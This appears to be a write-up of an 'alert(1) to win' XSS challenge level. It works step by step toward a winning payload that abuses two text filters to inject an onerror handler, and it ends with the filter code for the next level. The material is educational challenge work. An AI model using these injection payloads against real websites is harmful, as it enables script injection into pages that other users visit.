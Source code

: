 
### comments
Took me a while to realise that the key to this is hitting _both_ filters with one string, which would allow you to escape one html element into the next.

I also resorted to copy-pasting the results of my lines into atom so I could get some syntax highlighting to make it easier to understand what was going on an what was being escaped where.

some WIP stuff:
`http://[[x|onerror=]]alert(1)` gives:
```html
<a href="http://<img alt="onerror=" src="x.gif">alert(1)">http://<img alt="onerror=" src="x.gif">alert(1)</a>
```
which looks fairly promising. We've got an `onerror` handler, though it's on a `anchor` and the contents is junk at the moment.

`[[x|http://onerror=alert(1)+]]alert(1)` gives:
```html
<img alt="<a href="http://onerror=alert(1)+" src="x.gif">alert(1)">http://onerror=alert(1)+]]alert(1)</a>
```
I worried that I needed to break apart the `http://` and `onerror`, but I tried `<a http://href="bob.com" http://style="color:red;"> test</a>` in a plain window and it styled itself fine, so apparently the `//` can be a delimiter.
This still didn't work though, and I assume it's because onerror doesn't have quotes after it.

`[[x|http://onerror=alert(1);//]]alert(1)` results in:
```html
<img alt="<a href="http://onerror=alert(1);//" src="x.gif">alert(1)">http://onerror=alert(1);//]]alert(1)</a>
```
While this didn't work on the [alert(1) to win](https://alf.nu/alert1) page, it did when I pasted it into a html file and opened that in a browser, so maybe the website is wrong?
_Turns out its something special about FF and (I'm assuming) it's iframes, because it works in chrome._

So I shortened it down and shifted to Chrome.

### Win with:
```
[[x|http://onerror=alert(1)//]]
```
31 characters

## DOM
### filter
```javascript
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
